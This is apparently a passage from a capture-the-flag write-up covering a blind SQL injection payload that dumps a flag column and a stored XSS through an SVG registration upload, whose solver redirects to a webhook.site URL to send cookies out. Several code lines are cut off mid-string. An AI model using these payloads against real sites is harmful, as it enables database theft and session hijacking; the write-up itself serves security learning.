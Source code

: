 When attempting to dump data, I encountered an issue where the query to dump columns was unsuccessful. As a result, I modified the payload

```python

		payload["username"] = base64.b64encode(
			"' OR ASCII(SUBSTRING((SELECT {} FROM {} LIMIT 1), {}, 1)) <= {}-- -".format(
      str(kolom), str(table), str(idx), str(mid)
	  ).encode('utf-8')
).decode('utf-8')

blind("group_concat(fl4g_c0lumN5,id)", "flag")
```
### Flag
`PROTERGO{f0ac7b6358cf6269dc59819c1bf3019fc6fcc2c5f5567b8187eae87d51f25e8c}`

## Control

`url: ctf.protergo.party:10001`
### Analyze

"There is a website for registration, based on the available description, there is a high likelihood of XSS.

![Protergo%20CTF%20a0136568816c40fea9a8d66ccba3460f/Untitled%203.png](Protergo%20CTF%20a0136568816c40fea9a8d66ccba3460f/Untitled%203.png)

After a while, I realized that the file upload feature during registration can be injected using SVG like the following:

```html
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/>
<svg version="1.1" baseProfile="full" >
   <polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400>
   <script type="text/javascript">
      alert(document.domain);
   </script>
</svg>

```

Next, we can try to retrieve its cookies to obtain the flag."
### Solver

```html

<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/>
<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
   <rect width="300" height="100" style="fill:rgb(0,0,255);stroke-width:3;strok>
   <script type="text/javascript">
      document.location.href = 'https://webhook.site/1c522f3a-fb3d-4bf4-8163-51>
   </script>
</svg>
```
